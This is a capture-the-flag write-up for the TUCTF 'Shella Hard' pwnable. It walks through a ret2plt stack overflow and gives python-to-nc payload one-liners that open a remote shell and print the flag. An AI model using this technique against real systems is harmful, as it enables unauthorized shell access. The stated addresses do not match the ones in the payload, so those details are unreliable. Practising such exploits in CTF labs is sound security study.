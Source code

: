 # Shella Hard [Pwnable 475 points]

### Chall's description
```
Difficulty: mind-melting hard
This program is crap! Is there even anything here?

nc x.x.x.x 12345
```

#### File give for the chall
* [shella-hard](./shella-hard)

## Solution
```
$ file shella-hard
shella-hard: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2
```

The executable doesn't print nothing, instead we insert 0x1e byte, by using the read function, (it reads the null byte and terminate with \x0a)

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

no pie, no canary, we should give a try to ret2libc or ROP, in this case we have direclty the system@got and even the "/bin/sh" string, in our segment code space.. so the author of this challenge is clearly inviting us to use ret2plt (ROP). 

So now these are the steps:
	1) find the address "/bin/sh". Got it 0x0804850
	2) find the address of system@plt. for some reason we use 0x8048457

run:
```bash
cat <( python -c 'print "A"*0x10 + "B"*0x4 + "\x67\x84\x04\x08" +"\x00\x85\x04\x08" + "\x00\x85\x04\x08" +"\x00"*4' ) - | nc X.X.X.X 12345 #works only on local machine...


( python -c 'print "A"*0x10 + "B"*0x4 + "\x67\x84\x04\x08" +"\x00\x85\x04\x08" + "\x00\x85\x04\x08" +"\x00"*4'; cat ) | nc X.X.X.X 12345 #this works everywhere
```

now we have a shell open, then just execute "cat flag".

# The Flag:
	TUCTF{175_wh475_1n51d3_7h47_c0un75}
